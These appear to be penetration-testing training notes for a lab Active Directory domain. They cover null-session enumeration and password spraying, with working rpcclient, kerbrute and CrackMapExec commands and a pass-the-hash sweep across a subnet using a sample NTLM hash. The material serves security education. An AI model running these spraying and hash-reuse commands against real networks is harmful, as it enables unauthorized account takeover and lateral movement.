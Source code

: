
### Windows
#### Enumerating Null Session
```powershell
> net use \\DC01\ipc$ "" /u:""

# Using net.exe
> net accounts

# Using PowerView
PS > import-module .\PowerView.ps1
> Get-DomainPolicy
```

## Password Spraying
Password spraying can result in gaining access to systems and potentially gaining a foothold on a target network. The attack involves attempting to log into an exposed service using one common password and a longer list of usernames or email addresses. The usernames and emails may have been gathered during the OSINT phase of the penetration test or our initial enumeration attempts. Remember that a penetration test is not static, but we are constantly iterating through several techniques and repeating processes as we uncover new data. Often we will be working in a team or executing multiple TTPs at once to utilize our time effectively. As we progress through our career, we will find that many of our tasks like scanning, attempting to crack hashes, and others take quite a bit of time. We need to make sure we are using our time effectively and creatively because most assessments are time-boxed. So while we have our poisoning attempts running, we can also utilize the info we have to attempt to gain access via Password Spraying. Now let's cover some of the considerations for Password spraying and how to make our target list from the information we have.

### Linux
Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. The following sections will let us practice Password Spraying from Linux and Windows hosts. This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

```bash
# Using a Bash one-liner
$for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

# Using Kerbrute 
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


# Using CrackMapExec 
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p password.txt --no-bruteforce| grep + 

## Validating the Credentials with CrackMapExec
$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

## Local Administrator Password Reuse
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
